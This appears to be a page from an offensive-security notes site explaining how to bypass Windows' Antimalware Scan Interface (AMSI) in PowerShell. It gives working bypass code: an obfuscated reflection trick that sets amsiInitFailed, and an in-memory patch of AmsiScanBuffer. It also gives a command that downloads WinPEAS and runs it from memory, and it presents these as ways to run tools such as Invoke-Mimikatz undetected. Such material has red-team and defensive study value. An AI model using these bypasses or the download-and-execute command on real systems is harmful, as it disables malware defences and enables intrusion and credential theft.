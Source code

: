 ```yaml
---
description: >-
  Windows's Antimalware Scan Interface (AMSI) tries to protect systems against
  suspicious scripts, but like most things, can easily be bypassed
---
```


# AMSI Bypass

When you run PowerShell code from the command-line, or from a `.ps1` script, AMSI will look at the code and if it finds any malicious-looking code, it will throw a `ScriptContainedMaliciousContent` error and not execute it. When you want to execute your exploit script, this can get in the way.&#x20;

A straightforward way to **test** if AMSI is enabled is to include a string that is always blocked, such as "`Invoke-Mimikatz`".&#x20;

There are many different bypasses that will disable AMSI, without being detected itself. These evolve over time as AMSI blocks more ways, but attackers are quick to find new bypasses by obfuscating certain parts in different ways.&#x20;

There are 2 types of bypasses, as explained clearly in the post below:

{% embed url="https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/" %}
Powershell-only VS global AMSI bypasses explained
{% endembed %}

1. **PowerShell-only**: This only prevents the `ScriptContainedMaliciousContent` check from blocking your exploit, but not anything more. When loading .NET assemblies it might still fail
2. **Global**: Disable all AMSI protections, including .NET assemblies

{% embed url="https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell" %}
List of many different known AMSI bypasses that are updated
{% endembed %}

{% embed url="https://amsi.fail/" %}
Automatic PowerShell AMSI bypass generator, creates a new bypass every time
{% endembed %}

Some **PowerShell-only** bypasses like the following will disable AMSI for all future PowerShell commands in that same process:

{% code title="Obfuscated PowerShell-only" %}
```powershell
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$me = $field.GetValue($field)
$me = $field.SetValue($null, [Boolean]"hhfff")
```
{% endcode %}

Afterward, you can successfully run scripts that AMSI would normally block, like `Invoke-Mimikatz`. But with such a bypass not every protection is gone yet. When you load a .NET assembly for example you might receive the following cryptic error:

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>Screenshot from @S3cur3Th1sSh1t when trying to execute something that requires loading a .NET assembly</p></figcaption></figure>

To get past this, we'll need a **global** bypass that disables it completely. If you have done the PowerShell-only bypass already, you don't even need to obfuscate it anymore:

{% code title="Unobfuscated global bypass" %}
```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
{% endcode %}

After running this, every AMSI protection should be disabled and you are able to run .NET assemblies again. For example, [WinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) can be run like this:

```powershell
# Get latest release
$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe"

# Download and execute winPEASany from memory in a PS shell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); 
[winPEAS.Program]::Main("")
```
